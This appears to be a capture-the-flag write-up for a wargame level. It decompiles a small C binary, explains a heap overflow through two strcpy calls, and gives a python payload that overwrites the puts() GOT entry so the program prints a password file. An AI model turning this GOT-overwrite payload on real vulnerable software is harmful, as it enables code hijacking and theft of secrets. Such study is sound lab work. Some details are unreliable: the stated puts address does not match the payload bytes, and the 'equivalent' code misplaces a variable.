 Here is the decompiled code :

```c
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  time_t tVar1;
  
  tVar1 = time((time_t *)0x0);
  printf("%s - %d\n",c,tVar1);
  return;
}

undefined4 main(undefined4 param_1,int param_2)

{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;

  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```

The code is equivalent to this one :
```c
int main(int argc, char **argv) {
    void **obj1 = malloc(8);
    obj1[0] = (void *)1;
    obj1[1] = malloc(8);

    void **obj2 = malloc(8);
    obj2[0] = (void *)2;
    obj2[1] = malloc(8);

    strcpy((char *)obj1[1], argv[1]);
    strcpy((char *)obj2[1], argv[2]);

    FILE *f = fopen("/home/user/level8/.pass", "r");
    char c[0x44];
    fgets(c, 0x44, f);
    puts("~~");

    return 0;
}
```

So strcpy is vulnerable to buffer overflow.
The first strcpy will be used to write inside `puVar3[1]` the address of puts() and the second strcpy will be used to overwrite what's at the address of puts() and replace it by m().

Address of puts() : 0x08048400

We found the offset of the first buffer by finding a pattern with this command : `ltrace ./level7 aaaaaaaaaaaaaaAAAAAAABBB`.

Since we know what we have to do we create the payload :

`./level ([ padding ] + [ addr of puts() ]) ([ addr of m() ])`

`./level7 $(python -c 'print("aaaaaaaaaaaaaaAAAAAb\x28\x99\x04\x08")'` `python -c 'print("\xf4\x84\x04\x08")')`

Done
